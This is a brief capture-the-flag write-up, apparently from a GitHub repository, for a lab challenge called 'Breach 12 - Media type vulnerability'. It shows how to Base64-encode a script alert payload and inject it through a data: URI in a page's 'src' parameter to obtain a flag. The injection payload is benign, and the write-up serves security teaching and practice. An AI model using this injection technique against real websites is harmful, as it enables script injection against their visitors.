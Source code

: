 # Breach 12 - Media type vulnerability
- On the "HOME" page, scroll down to the middle
- Click on the second of the NSA images and inspect the URL of the page that opens
- Open the site https://md5hashing.net or similar in a separate window
- Copy and paste the following Text into the Hash section
    ```js
    <script>alert("Warning!");</script>
    ```
- Click the "Hash it!" button and copy the corresponding Base64 hash value `PHNjcmlwdD5hbGVydCgiV2FybmluZyEiKTs8L3NjcmlwdD4=`
- Visit the URL with the appropriate IP address as follows to get the flag
    ```
    http://10.12.1.129/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiV2FybmluZyEiKTs8L3NjcmlwdD4=
    ```
